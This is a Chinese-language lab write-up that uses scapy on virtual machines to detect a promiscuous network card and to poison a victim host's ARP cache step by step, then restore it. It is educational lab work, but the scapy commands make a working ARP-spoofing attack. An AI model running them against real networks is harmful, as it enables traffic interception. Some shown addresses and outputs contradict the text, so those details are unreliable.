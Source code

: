 # 网络拓扑
## 网络中的节点基本信息如下
- 攻击者主机(kali-demo)
    - 08:00:27:11:5a:80 / eth0
    - 172.16.111.127
    - ![](kali-demo.png)
- 受害者主机(kali-victim)
    - 08:00:27:a0:1f:82 / eth0
    - 172.16.111.129
    - ![](kali-victim.png)
- 网关(debian-gateway)
    - 08:00:27:d4:ab:73 / enp0s9
    - 172.16.111.1
    - ![](gateway.png)
## 实验准备
### 安装scapy
在攻击者主机上提前安装好 scapy 
```
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip
pip3 install scapy[complete]
```
## 实验一：检测局域网中的异常终端
```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:a0:1f:82 brd ff:ff:ff:ff:ff:ff
```
![](ip.png)
```
# 在攻击者主机上开启 scapy
scapy
```
![](scapy.png)
```
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.129")
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:a0:1f:82 brd ff:ff:ff:ff:ff:ff
```
![](iplink.png)
```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.129")
```
![](pkt.png)
```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```
## 实验二：手工单步“毒化”目标主机的 ARP 缓存
- 以下代码在攻击者主机上的 scapy 交互式终端完成。
```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.0.1")
# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```
![](arpbroadcast.png)
```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)
```
![](recved.png)
```
# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.129
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.129", hwdst="08:00:27:11:5a:80")
# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
![](sendp.png)
- 此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
```
ip neigh
# 172.16.111.127 dev eth0 lladdr 08:00:27:11:5a:80 STALE
# 172.16.111.1 dev eth0 lladdr 08:00:27:d4:ab:73 STALE
```
![](ipn.png)
- 回到攻击者主机上的 scapy 交互式终端继续执行命令。
```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:d4:ab:73", pdst="172.16.111.129", hwdst="08:00:27:a0:1f:82")
sendp(restorepkt1, count=100, inter=0.2)
```
![](restorepkt1.png)
- 此时在受害者主机上准备“刷新”网关 ARP 记录。
```
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
```
![](ping.png)
```
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![](ipne.png)
## ps
由于虚拟机多次崩溃 导致新建数次 因此地址前后不一致 没有重新截图 